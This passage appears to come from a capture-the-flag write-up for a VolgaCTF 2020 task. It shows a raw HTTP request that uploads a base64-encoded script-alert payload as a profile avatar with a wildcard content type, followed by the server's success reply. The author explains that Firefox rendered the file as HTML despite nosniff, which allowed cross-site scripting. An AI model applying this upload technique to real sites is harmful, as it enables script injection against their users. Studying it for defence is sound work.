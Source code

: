 The file was successfully uploaded as was indicated by the response below:
```json
POST /user-update HTTP/1.1
Host: api.volgactf-task.ru
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 93
Origin: https://volgactf-task.ru
Connection: close
Referer: https://volgactf-task.ru/editprofile.html

{"avatar":"PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ+","type":"*/*","bio":"No Bio"}

HTTP/1.1 200 OK
Server: nginx/1.16.1 (Ubuntu)
Date: Sun, 29 Mar 2020 18:45:19 GMT
Content-Type: application/json
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://volgactf-task.ru
Content-Length: 16

{"success":true}
```

Even though the file was uploaded successfully, it was still unknow how Firefox would parse this file type. 

To my suprise, Firefox parsed it as a HTML even that the ```X-Content-Type-Options``` header was set to nosniff allowing the execution of arbritary javascript on the ```static.volgactf-task.ru``` .

![](/images/volgactf-xss.png)
